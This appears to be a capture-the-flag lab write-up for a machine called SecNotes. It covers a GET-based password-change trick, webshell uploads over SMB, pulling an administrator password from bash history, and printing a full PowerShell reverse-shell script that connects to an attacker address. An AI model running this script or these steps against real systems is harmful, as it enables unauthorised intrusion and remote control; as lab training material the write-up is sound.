



# SecNotes


```nmap```, ```nmap```, what, what, the ```nmap```.


Looks like we have a web server running on ```80``` and ```8808```, and SMB responding.

If we browse to the page that it's hosting, it looks like a login page.


However, since we don't have credentials, let's see what happens when we sign up.



Now let's login with our new account.


With the contact tyler being named, let's see if tyler has an account.


He does.  Let's load up BurpSuite and attempt to guess his password using ```rockyou.txt```.



As that could take forever, let's do some more exploring while it runs.

If we go to the change password page, it looks like it doesn't require our original password.


Let's pass this to BurpSuite and see if it possibly is sending a username in the request, and we can swap to Tyler.


It does not look like it, however, being that it's doing a ```POST``` request, what happens if we take the password change and make a ```GET``` request in the address bar?


Looks like it worked.


Let's logout and log back in with the new password to test.

Now that we know that functions, let's file that away for later.

What else do we still have to explorer here?  Let's take a look at the Contact Us page and attempt to "contact" Tyler.


Nothing seems to happen, however, how can we tell if there's any sort of background interaction occuring by "Tyler"?  Let's spin up a quick web server and send a link to see if we get an interaction.


Looks like we got a hit.  So if links are being visited by "Tyler," why don't we see what happens if we send him a link to change his password?


Let's see if we can now login as Tyler with that password.


Looks that way.

If we expand the one note, we see what looks like a UNC path, a username, and a password.


Let's try to connect via ```smbclient``` to verify those credentials work.



Looks good to me, let's go browse that network share.


Looks like default IIS page files.  Port ```80``` returned an actual site, so this should be the site on port ```8808```.  Let's upload a .php webshell and so that we can get command line access to this box.

We'll generate a really simple php webshell first.


Then we'll upload it via SMB.


Now, since we're already in a few terminal windows, let's call the webshell via curl rather than using a browser.


Well, this doesn't look right.


It's returning a default error page, as if the ```webshell.php``` file isn't there.  Let's check our SMB share to verify it's still there.


It's gone.  Maybe something on the server is cleaning up anything with the name ```webshell.php```.  Let's try renaming the webshell to ```tyler.php``` and uploading it again.


That gives us the same issue.  So, there is likely either some sort of antivirus or an automated process that keeps cleaning it up.

Let's instead try uploading ```netcat``` to the server and then creating a .php file that calls ```netcat``` to make a reverse shell.


Let's setup a ```netcat``` listener, and then call the .php file via ```curl```.  Nope, that keeps getting nuked too.

Okay, let's create a reverse shell with ```msfvenom```, and see if that gets through before being nuked.


We'll setup our ```netcat``` listener, and then we'll call the ```payload.php``` file with ```curl```.


Just to make sure we don't get kicked out of this if that file gets nuked, let's create a reverse shell with ```powershell``` back to ourselves.

We'll setup another ```netcat``` listener first, and then launch the ```powershell``` reverse shell.


Well, that confirms the antivirus software is smacking things down.  So we'll have to go an alternate route to get a reverse shell via ```powershell```.

We'll create a text file on our system and then share it out via HTTP.

The file contents are:

>```powershell
>function cleanup {
>if ($client.Connected -eq $true) {$client.Close()}
>if ($process.ExitCode -ne $null) {$process.Close()}
>exit}
>// Setup IPADDR
>$address = '%attackerIP%'
>// Setup PORT
>$port = '%attackerport%'
>$client = New-Object system.net.sockets.tcpclient
>$client.connect($address,$port)
>$stream = $client.GetStream()
>$networkbuffer = New-Object System.Byte[] $client.ReceiveBufferSize
>$process = New-Object System.Diagnostics.Process
>$process.StartInfo.FileName = 'C:\\Windows\\System32\\WindowsPowerShell\\v1.0\\powershell.exe'
>$process.StartInfo.RedirectStandardInput = 1
>$process.StartInfo.RedirectStandardOutput = 1
>$process.StartInfo.UseShellExecute = 0
>$process.Start()
>$inputstream = $process.StandardInput
>$outputstream = $process.StandardOutput
>Start-Sleep 1
>$encoding = new-object System.Text.AsciiEncoding
>while($outputstream.Peek() -ne -1){$out += $encoding.GetString($outputstream.Read())}
>$stream.Write($encoding.GetBytes($out),0,$out.Length)
>$out = $null; $done = $false; $testing = 0;
>while (-not $done) {
>if ($client.Connected -ne $true) {cleanup}
>$pos = 0; $i = 1
>while (($i -gt 0) -and ($pos -lt $networkbuffer.Length)) {
>$read = $stream.Read($networkbuffer,$pos,$networkbuffer.Length - $pos)
>$pos+=$read; if ($pos -and ($networkbuffer[0..$($pos-1)] -contains 10)) {break}}
>if ($pos -gt 0) {
>$string = $encoding.GetString($networkbuffer,0,$pos)
>$inputstream.write($string)
>start-sleep 1
>if ($process.ExitCode -ne $null) {cleanup}
>else {
>$out = $encoding.GetString($outputstream.Read())
>while($outputstream.Peek() -ne -1){
>$out += $encoding.GetString($outputstream.Read()); if ($out -eq $string) {$out = ''}}
>$stream.Write($encoding.GetBytes($out),0,$out.length)
>$out = $null
>$string = $null}} else {cleanup}}
>```

Okay, let's restart our first listener, reupload ```payload.php```, then execute.  Once we have that initial access, we'll try the new ```powershell``` reverse shell.


And there we are, we're now in ```powershell``` on the victim machine.  Now to dig deeper.

We'll grab the user flag real quick while we're here.


Let's see what else Tyler has hanging around his profile.

Poking around we see some .lnk files on his desktop.


The fact that bash.lnk is there may indicate that Windows Sub-system for Linux is installed.  Let's see what we can find there.


Looks like that is indeed the case.  Let's see who WSL is running as.


Poking around, doesn't look like we can ```netcat``` out from WSL, but maybe we can reverse shell from WSL via bash commands.

As always, setup another listener.


Let's see what's in root's home directory.


```.bash_history``` may lead to some juicy results.


Looks like we've got the administrator password now.

Let's use ```smbclient``` to access the system.


Now that we're logged in as root, let's go grab the flag.


Now to move on to another box.

___

[Back](../)
